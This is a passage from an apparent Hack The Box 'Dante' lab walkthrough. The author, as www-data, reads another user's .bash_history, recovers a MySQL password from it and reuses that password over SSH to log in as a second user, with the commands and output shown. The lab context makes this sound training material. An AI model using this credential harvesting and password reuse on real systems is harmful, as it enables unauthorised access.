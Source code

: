 I don't have an access to `flag.txt` for now since I'm just `www-data` for now.
Btw, I observed that `.bash_history` file has some data and even it's readable.
This sometimes contains credential or critical information.

```bash
www-data@DANTE-WEB-NIX01:/home/james$ cat .bash_history
cat .bash_history
cd /home/balthazar
rm .mysql_history
mysql -u balthazar -p TheJoker12345!
```

Bingo! It has `mysql` credential for `balthazar` : `TheJoker12345!`

Let's try credentials for `james` and `balthazar` on `ssh` though.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh james@10.10.110.100
The authenticity of host '10.10.110.100 (10.10.110.100)' can't be established.
ED25519 key fingerprint is SHA256:Pj8NTFWehqCpZS0qnbXCKkHikSrFlHDgABvA2FE9Lu0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.110.100' (ED25519) to the list of known hosts.
james@10.10.110.100's password: 
Permission denied, please try again.
```

The one for `james` is not working.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh balthazar@10.10.110.100
balthazar@10.10.110.100's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-29-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


636 updates can be installed immediately.
398 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Sat Jan  4 03:34:33 2025 from 10.10.16.3
balthazar@DANTE-WEB-NIX01:~$ id
uid=1002(balthazar) gid=1002(balthazar) groups=1002(balthazar)
```
